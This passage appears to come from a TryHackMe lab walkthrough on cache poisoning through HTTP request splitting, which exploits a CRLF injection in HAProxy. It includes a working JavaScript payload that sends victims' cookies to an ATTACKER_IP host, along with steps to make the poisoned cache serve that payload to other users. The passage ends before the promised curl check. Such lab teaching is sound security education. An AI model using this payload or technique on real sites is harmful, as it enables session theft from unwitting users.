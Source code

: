 ![Analysing the javascript loaded by the website](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/19a63985e226cb553972ee3448af1365.png)  

Let's try to poison the cached version ofÂ `/static/text.js`Â to include a javascript payload to steal the cookies from the user.

Since we need the javascript payload to be on the website before the cache poisoning, let's start by uploading the following payload in a file namedÂ `myjs.js`:

```javascript
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
       document.getElementById("demo").innerHTML = xhttp.responseText;
    }
};
xhttp.open("GET", "https://ATTACKER_IP:8002/?c="+document.cookie, true);
xhttp.send();
```

This is a simple payload that will forward the victim's cookies back to a web server controlled by the attacker. Be sure to replace ATTACKER_IP with the IP address of your AttackBox. The only special thing about this payload is that it forwards the cookie via https. We need to use https, sinceÂ HTTP/2 runs over https by default. If a script in an https website tried to load a resource using plaintextÂ http, most browsers would block the action for security reasons. This means your standard pythonÂ httpÂ server won't actually be able to receive the cookies, but more on that later.

After uploading our payload, the website will let us know that the file has been saved toÂ `/static/uploads/myjs.js`. We now need to poison the cache so that it serves our payload wheneverÂ `/static/text.js`Â is requested.Â To do so, we will use the following request:

![HTTP request splitting to poison the cache](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/b97db693a7c07ee9c72d785351090281.svg)  

Here, we are reusing the CRLF injection vulnerability in HAProxy to perform a request splitting attack in the backend. The first backend request will get the contents ofÂ `/static/text.js`. The second request will be forÂ `/static/uploads/myjs.js`. The proxy should expect a single response to its request, but is getting two instead. The proxy will take the first response and serve it to the user, and keep the second response queued in the backend connection.

Note that we included theÂ `Pragma: no-cache`Â header in our request to force theÂ proxyÂ to bypass any cached content and send the request to the backend server. Doing so allows us to send several requests until our payload is correctly triggered without waiting for the cache to time out.  

If we now send an additional request forÂ `/static/text.js`, we will get the queued response with the contents ofÂ `myjs.js`.Â Beyond the fact that we are receiving the wrong content for our new request, the cache will wrongly associate the contents of the queued response with the new URL we are requesting.Â Any other user that requestsÂ `/static/text.js`Â afterwards, will receive the contents ofÂ `myjs.js`Â served from the poisoned cached instead. This will last until the cached content expires, which is just 30 seconds for our lab.

![Poisoning the cache by desyncing the backend connection](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f2cc2a0be416384bbba3ce79d1dd37bb.svg)

If your attack worked, you should now be able to use curl to requestÂ `/static/text.js`, and should get the contents of our payload instead. The following command would allow you to check if the attack worked:

